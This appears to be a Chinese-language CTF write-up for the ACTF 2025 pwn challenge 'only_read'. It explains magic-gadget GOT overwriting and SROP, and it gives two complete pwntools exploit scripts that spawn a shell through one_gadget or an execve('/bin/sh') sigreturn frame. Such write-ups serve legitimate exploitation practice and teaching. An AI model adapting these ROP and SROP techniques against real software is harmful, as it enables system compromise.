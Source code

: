 ```yaml
---
title: ACTF-2025-pwn
tags:
    - XCTF
    - pwn
categories:
    - 比赛记录
cover: /img/治不开心药.png
---
```

# ACTF-2025-pwn

## 前言
继续备战

## only_read

题如其名，只有一个read 函数，通过magic gadgets 来打。当然也有其他解法

### ida分析
### 思路
#### magic gadgets
首先要知道经典的gadgets
```python
0x000000000040111c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000110a46: pop rbx; pop rbp; pop r12; pop r13; pop r14;
```
这两条gadgets，可以凑一个任意半个地址写。上面那个是程序里的，下面的是libc中的。选择这条是因为它的低三字节和read接近，只需要改两个字节，就可以把read修改为这个。（ps：4,5,6都是说第二次read时的payload）
1. 那么第一次read，就是修改rbp，然后返回read继续读。
2. 第二次read，前面0x80字节开始为后续的利用作准备。rbp设置为，这次的读入的地址，同时，这地址要下一次能修改到read@got[]
3. 第三次read，就修改掉read@got为0x110a46 这条gadget
4. read结束之后，rsp指向rbp+8，rbp是之前设计好的，也就是会回到第二次read时的前0x80字节之间。在这里调用read@plt，来执行改好的gadget。这时可以控制rbx，rbp。
5. 然后，接上0x40111c这条gadget，把read@got[]改为ogg。
6. 然后，可以接一个pop_rbp抬栈，再调用read@plt，来执行ogg。

#### SROP
如何找syscall; ret;
```shell
ROPgadget --binary libc.so.6 --opcode 0f05c3
```
这是找syscall的一个方法。当然read函数的过程中其实有syscall，我们只要把偏移改过去就行。当然要提前控制好`rax`, 那么这题就是要想办法控制`rax`为`0xf`
1. 第一次read，修改rbp，返回read继续读。
2. 第二次read，前0x80字节可以部署一些准备工作，rbp往bss的高地址写，便于控制。
3. 第三次read，要控制rbp，为read@got[]附近，下一次要修改read偏移直接到sysread。同时把SigreturnFrame，部署在这里。
4. 第四次read，把偏移改好
5. 这一次，因为没有设置好rax，所以还是read，随便输下一次就是SROP。
#### nepnep
[ACTF 2025 Writeup by Nepnep | CN-SEC 中文网](https://cn-sec.com/archives/4011487.html)
### exp
#### magic gadgets
```python
from esy import *
context.log_level="debug"
context.terminal=['tmux','splitw','-h','-l','66%']
context.arch="amd64"
io,elf=loadfile("./only_read","",0)

'''
0x000000000040111c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000058aa8 : pop rbp ; pop rbx ; ret
0x00000000000584d5 : pop rbx ; pop rbp ; pop r12 ; pop r13 ; ret
0x0000000000110a46: pop rbx; pop rbp; pop r12; pop r13; pop r14; ret;
'''
one_gadgets=[0xef52b,0xef4ce,0x583f3,0x583ec]
gdb.attach(io,"b *0x401158")
got_read = elf.got['read']
addr_reread = 0x401142
gadget=[0x40111c,0x058aa8,0x0584d5]
payload=b"a"*0x80+p64(got_read+0x100)+p64(addr_reread)
io.send(payload)

sleep(1)

rop_chain = b"1" * 8
rop_chain += flat([
    elf.plt['read'],
    0xfffdeae5, # 修改read@got 为 ogg
    got_read + 0x3d,
    0, 0, 0,
    gadget[0]
], length=0x38)
rop_chain += p64(gadget[0]+1)
rop_chain += p64(0x404190)
rop_chain += p64(elf.plt['read'])
rop_chain = rop_chain.ljust(0x80, b"\x00")
rop_chain += p64(0x403ff8 + 0x88)
rop_chain += p64(addr_reread)
io.sendline(rop_chain)

sleep(1)
io.send(b"\x46\x0a")
io.interactive()
```
#### SROP
```python
from esy import *
context.log_level="debug"
context.terminal=['tmux','splitw','-h','-l','66%']
context.arch="amd64"
io,elf=loadfile("./only_read","",0)

'''
0x0000000000098fb6: syscall; ret;
0x000000000011c3f9: 0f05c3;
'''
tar=0x404088
bss=0x404800
read=0x401142
rbp=0x40111D
got=0x404000#-->0x5f
leave=0x40115D

gdb.attach(io,"b *0x401158")
payload=b'\x00'*0x80+p64(tar+0x80-0x8)+p64(read)
io.send(payload)
pause()

payload=p64(bss+0x100-0x90)+p64(read+4)
payload=payload.ljust(0x80,b'\x00')+p64(bss-0x100)+p64(read)
io.send(payload)
pause()

s=SigreturnFrame()
bin_sh=0x404710
s.rax=0x3b
s.rdi=bin_sh
s.rdx=0
s.rsi=0
s.rip=0x401044
payload =p64(bss).ljust(0x80,b'\x00')+p64(got+0x80)+p64(read)
payload+=b"/bin/sh\x00"+b'\x00'*0x160+p64(rbp)+p64(0xf+0x80)+p64(read)+bytes(s)[8:]
io.send(payload)
pause()
io.send(b'\x5f')
pause()
io.sendline(b'a')
io.interactive()

```

